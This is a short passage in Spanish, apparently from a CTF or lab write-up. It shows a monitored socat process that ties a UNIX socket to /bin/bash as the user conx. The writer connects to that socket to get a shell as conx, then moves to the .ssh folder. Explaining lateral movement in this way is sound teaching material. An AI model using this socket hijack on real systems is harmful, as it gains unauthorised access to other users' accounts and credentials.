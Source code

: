 Vemos que esta resaltado de naranja la siguiente linea: 

``` 
CMD: UID=1002  PID=1164   | socat UNIX-LISTEN:/home/conx/.cache/.sock,fork EXEC:/bin/bash 
```

Por lo que vemos se esta realizando un socat ejecutando la bash como el usuario conx, por lo que podremos realizar lo siguiente.

Con este comando entramos a **conx**


``` 
socat - UNIX-CONNECT:/home/conx/.cache/.sock
```

![alt text](image-35.png)

Despues abrimos otra terminal y entramos a **./ssh** :

![alt text](image-36.png)
